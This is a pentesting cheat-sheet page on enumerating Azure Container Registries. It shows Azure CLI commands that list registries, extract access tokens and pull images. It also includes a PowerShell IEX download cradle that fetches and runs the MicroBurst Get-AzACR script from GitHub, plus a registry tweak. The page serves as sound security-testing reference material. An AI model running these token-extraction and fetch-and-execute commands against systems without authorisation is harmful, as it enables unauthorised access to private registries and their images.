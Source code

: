 # Azure Services - Container Registry

## Enumerate

List container registries in the subscription using Azure CLI 

```ps1
az login -u user@domain.onmicrosoft.com -p pass
az acr list -o table
```

Login to the Registry

```ps1
acr=<ACRName> # from the previous command
server=$(az acr login -n $acr --expose-token --query loginServer -o tsv) 
token=$(az acr login -n $acr --expose-token --query accessToken -o tsv) 
docker login $server -u 00000000-0000-0000-0000-000000000000 -p $token 
```

List the images in the ACR

```ps1
az acr repository list -n $acr 
```

List version tags for an image
```ps1
az acr repository show-tags -n $acr --repository mywebapp
```

Connect to the container registry from a PowerShell console, set the $server and $token variables, and pull the image from the registry

```ps1
# docker login ${registryURI} --username ${username} --password ${password}
$token="<AccessToken>"
$server="<LoginServer>"
docker login $server -u 00000000-0000-0000-0000-000000000000 -p $token
docker pull $server/mywebapp:v1
```

List docker containers inside a registry

```ps1
IEX (New-Object Net.WebClient).downloadstring("https://raw.githubusercontent.com/NetSPI/MicroBurst/master/Misc/Get-AzACR.ps1")
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Internet Explorer\Main" -Name "DisableFirstRunCustomize" -Value 2
Get-AzACR -username ${username} -password ${password} -registry ${registryURI}
```


## References

* [PENTESTING AZURE: RECON TECHNIQUES - April 29, 2022 Stefan Tita](https://securitycafe.ro/2022/04/29/pentesting-azure-recon-techniques/)